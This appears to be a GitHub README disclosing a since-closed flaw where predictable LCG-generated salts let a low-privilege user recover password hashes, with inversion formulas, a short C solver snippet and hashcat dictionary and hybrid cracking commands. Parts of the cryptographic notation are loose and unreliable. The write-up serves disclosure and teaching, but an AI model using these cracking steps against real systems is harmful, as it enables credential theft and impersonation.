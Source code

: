 # Salt-Hash Approximation Recovery-attack with Known plaintext using data containers (Hashcat)
> :warning: **Disclaimer**: PLEASE BE AWARE THAT THE VULNERABILITY HAS BEEN IDENTIFIED AND SUCCESSFULLY CLOSED.
NO KNOWN ATTACKS HAVE BEEN EXECUTED USING THIS VULNERABILITY AND NO DATA WAS OBTAINABLE BY THIRD PARTIES.
THE INFORMATION PRESENTED IS FOR EDUCATIONAL PURPOSES ONLY AND DOES NOT REPRESENT AN ONGOING RISK.

This is a demonstrative recovery attack with which any low privilege user of the system
can potentially steal user credentials and perform actions using a different identity,
this works by exploiting the password reset feature shortly after a finished update cycle
in order for the attacker to map possible prng sequences to salts for hash predictions.

## Summary
  1. Remove nearby hash salts by iteration of lcg parameters with known points in sequence
  2. Fire and forget guessed unsalted hashes based on lcg sequence via cloud compute services
  3. Copyright

### CWE-338 Use of Cryptographically Weak Pseudo-Random Number Generator (PRNG)
Uses a Pseudo-Random Number Generator (PRNG) in a security context, but the PRNG's algorithm is not cryptographically strong.
![](https://chart.apis.google.com/chart?cht=tx&chl=f(x_{n+1})=(ax_n+c)\gg%20d%20\pmod%20m%20\Rightarrow%20f^{-1}(y_n)=a^{-1}(y_n-c)\gg%20d%20\pmod%20m)
![](https://chart.apis.google.com/chart?cht=tx&chl=y_n:=\left%20\lfloor%20x_n/2^31%20\pmod%20m%20\right%20\rfloor)

```c
//for d=1
rlcg<a, c, m, /*second modulo*/0> rlcg({p1, p2});
if(!rlcg.solution().empty())
  std::cout << rlcg.solution() << std::endl;
```

### CWE-760 Use of a One-Way Hash with a Predictable Salt
One-way cryptographic hash against an input that should not be reversible, such as a password, but uses a predictable salt as part of the input.
![](https://chart.apis.google.com/chart?cht=tx&chl=h:=md5(\$pass)%20+%20\$salt.prng%20\Rightarrow%20md5%20=%20h-\$salt.prng)

```
hashcat.exe -m 0 ./md5_salt_guess.hash -a 0 -d 1 ./rockyou-extended.dict & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "!$??" ./rockyou-extended.dict ?1 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "@#%&*" ./rockyou-extended.dict ?1 & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" -2 "!$??" ./rockyou-extended.dict ?1?2 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" ./rockyou-extended.dict ?1 & more hashcat.potfile
```

### Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
